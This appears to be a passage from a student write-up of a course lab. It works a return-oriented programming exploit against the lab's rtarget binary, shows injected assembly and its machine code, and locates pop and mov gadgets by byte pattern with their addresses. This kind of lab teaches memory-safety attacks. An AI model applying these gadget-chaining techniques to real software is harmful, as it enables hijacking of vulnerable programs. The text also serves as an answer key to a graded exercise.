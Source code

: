    ```nasm
    movq $0x59b997fa, %rdi
    pushq $0x4017ec
    ret
    ```
    
    we will find that the machine code is:
    
    ```nasm
    Disassembly of section .text:
    
    0000000000000000 <.text>:
       0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
       7:	68 ec 17 40 00       	push   $0x4017ec
       c:	c3                   	ret    
    ```
    
    IIt is impossible to find this exact machine code in the assembly of`rtargets.s`. Instead, we need to put the cookie value on the stack (`%rsp`), use`pop %rdi`to pass it to touch2, then put the address of touch2 on the stack and return to it.
    
    ```nasm
    pop %rdi
    ret
    ```
    
    However, later it was discovered that this instruction's `gadget` couldn't be found in the `farm`. After multiple attempts, it was necessary to use other registers for transfer, considering using two `gadgets`
    
    ```nasm
    popq %rax
    ret #to the address of the next instruction
    
    movq %rax, %rdi
    ret #to touch2
    ```
    
5. According to the instruction set reference, `pop %rax` is represented by `58`. Searching for `58` in the assembly code, we find:
   
    ```nasm
    00000000004019a7 <addval_219>:
      4019a7:       8d 87 51 73 58 90       lea    -0x6fa78caf(%rdi),%eax
      4019ad:       c3                      retq                   retq
    ```
    
    The instruction address is `0x4019ab`.
    
    `movq %rax, %rdi` is represented by `48 89 c7`. We can find an exact match! (Note: `90` represents a "nop" instruction and can be ignored)
    
    ```nasm
    00000000004019c3 <setval_426>:
      4019c3:       c7 07 48 89 c7 90       movl   $0x90c78948,(%rdi)
      4019c9:       c3                      retq
    ```
    
